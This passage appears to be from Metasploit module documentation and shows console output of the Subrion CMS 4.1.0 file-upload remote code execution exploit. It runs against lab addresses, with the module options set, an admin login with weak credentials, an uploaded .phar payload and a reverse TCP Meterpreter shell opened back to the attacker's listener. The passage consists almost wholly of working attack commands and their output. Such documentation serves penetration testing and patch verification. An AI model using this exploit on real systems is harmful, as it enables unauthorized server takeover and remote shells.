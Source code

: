 ```
[*] Logging in to Subrion Admin Panel at: http://192.168.245.138:8080/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.245.138:8080/uploads/zftofixpwb.phar
[*] Executing 'zftofixpwb.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.138
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.138:56994) at 2023-07-30 01:56:57 -0400
[+] Successfully executed payload: http://192.168.245.138:8080/uploads/zftofixpwb.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 986c4ddc755b
OS          : Linux 986c4ddc755b 4.19.0-25-amd64 #1 SMP Debian 4.19.289-1 (2023-07-24) x86_64
Meterpreter : php/linux
meterpreter >
```

### Subrion CMS v4.1.0 with Docker on Windows 10

* Using PHP payload - default TARGET 0

```
msf6 > use exploit/linux/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set PASSWORD 123456
PASSWORD => 123456
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.29.1:8080/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.1.0.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 3e1ab07d6802525ce76747c40f117961
[*] Logging in to Subrion Admin Panel at: http://192.168.29.1:8080/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.29.1:8080/uploads/dckfdvdmrr.phar
[*] Executing 'dckfdvdmrr.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:50985) at 2023-07-30 04:13:51 -0400
[+] Successfully executed payload: http://192.168.29.1:8080/uploads/dckfdvdmrr.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 3514d9412b2d
```